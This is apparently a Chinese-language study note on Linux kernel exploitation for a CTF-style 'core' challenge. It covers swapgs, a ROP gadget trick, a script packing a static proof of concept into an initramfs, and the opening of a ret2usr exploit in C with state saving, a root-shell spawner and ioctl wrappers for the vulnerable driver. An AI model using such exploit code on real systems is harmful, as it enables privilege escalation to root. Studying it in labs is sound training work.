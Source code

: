 > swapgs exists because syscall doesn't change RSP to point at the kernel stack (and doesn't save the user-space RSP anywhere). So you need some kind of thread-local (or actually core-local) storage so each core can get the right kernel stack pointer for the task running on that core. The hidden GS base is storage for that hidden pointer, and a way to use it without destroying the values of any architectural registers.

* `mov rdi, rax; call rdx` gadget的注意点

`call rdx`，执行时会把call之后的指令，push进栈。所以只需要把`call rdx`与`pop reg;ret`结合，pop reg会把push进去的pop出来从而恢复栈，再执行ret，从而使得rop正常执行。

* pack.sh

```Bash
#!/bin/sh
gcc -o mypoc -static -w mypoc.c -g
cp mypoc extract/
cd extract/
find . | cpio -o --format=newc > ../core.cpio
cd ../
```

### 习题-Kerenl-ret2usr

ring0的特权，可以执行用户空间的函数。可以代替构造ROP来

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>

uint64_t user_cs, user_ss, user_eflags,user_sp;
void save_stats() {
	asm(
		"movq %%cs, %0\n"
		"movq %%ss, %1\n"
		"movq %%rsp, %3\n"
		"pushfq\n"
		"popq %2\n"
		:"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
 		:
 		: "memory"
 	);
 	printf("[*] save_stats\n");
}
void shell()
{
	if(getuid()==0)
	{
		system("/bin/sh");
	}
	printf("[!] No root shell");
}

void setoff(int fd,int off)
{
	ioctl(fd,0x6677889C,off);	
}

void core_read(int fd,char buf[])
{
	ioctl(fd,0x6677889B,buf);
}

```